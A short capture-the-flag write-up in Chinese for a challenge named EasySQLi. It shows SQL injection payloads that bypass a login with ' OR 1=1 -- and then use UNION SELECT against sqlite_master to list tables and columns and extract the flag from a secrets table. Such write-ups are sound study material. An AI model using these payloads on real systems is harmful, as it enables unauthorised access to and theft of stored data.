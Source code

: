 ## EasySQLi
hackmd 連結 : [EasySQLi](https://hackmd.io/@yeyeye618/rJ7DZ_cogg)
![image](https://hackmd.io/_uploads/H1AVfOqoxl.png)
有登入畫面 
而且名稱跟 SQL 有關
直接 sql injection
![image](https://hackmd.io/_uploads/B1oXpOqiex.png)
```
username= ' OR 1=1 --
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/r1zKzd5ogx.png)
發現可以 SQL語法 串接
用 UNION SELECT 撈 所有 table 名稱
```
username= CYSUN' UNION SELECT name,name,name FROM sqlite_master WHERE type='table
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/H1HwQ_qjxx.png)
有一個 secrets 的 table
撈 table 的欄位
```
username= CYSUN' UNION SELECT sql,sql,sql FROM sqlite_master WHERE tbl_name='secrets
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/rkEi4uqolg.png)
有 id 跟 flag 這兩個欄位
撈 flag 欄位
```
username= ' UNION SELECT flag,flag,flag FROM secrets --
password= ' OR 1=1 --
```
![image](https://hackmd.io/_uploads/BJCRVu9iee.png)
就撈到 flag 了
flag : `is1abCTF{UcCE5sFu11y_L34KeD_$EcRET_D@7A}`
